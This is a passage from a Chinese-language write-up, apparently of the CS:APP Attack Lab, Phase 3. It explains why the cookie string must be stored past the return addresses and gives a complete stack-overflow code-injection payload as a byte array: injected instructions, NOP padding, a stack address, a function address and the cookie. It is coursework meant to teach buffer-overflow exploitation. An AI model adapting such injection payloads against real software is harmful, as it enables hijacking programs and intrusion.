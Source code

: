 ![Phase3_pic3](./Screenshots/Phase3_pic1.png)

![Phase3_pic4](./Screenshots/Phase3_pic2.png)

可以看到，`hexmatch` 函数在执行时，`buf` 数组的内容被覆盖掉了，导致判断不正确。

所以 `cookie` 数组不能存在 `buf` 数组里。

> 如何解决？

只需要绕过会被覆盖掉的 `buf` 就好了，具体有两种选择，分别是将 `cookie` 往栈更深处和在栈外较远处存放。

由于输入只能向栈深处输入（事实上可以实现在栈外存数据，但较为繁琐），且不能保证栈外安全的间隔（似乎 `buf` 数组的前 `8` 个字节是安全的，但没尝试，直接选择了放在数组外），因此选择向深处存放 `cookie` 数组。

向输入串结尾的两个返回地址后面继续添加，将 `cookie` 串放在返回地址后面，事实上可以保证这里不会被覆盖掉。

```c
    buf[40] = { /* Phase 3 ver.2 */
        0x48, 0xC7, 0xC7, 0x88, 0xDC, 0x61, 0x55, 0xC3, /* 这 8 字节为注入指令 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, /* 后续任意 */
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
        0x78, 0xDC, 0x61, 0x55, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为指令地址 */
        0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, /* 这 8 字节为 touch2 函数的地址 */
        0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, /* 这里是字符 cookie */
    }
```
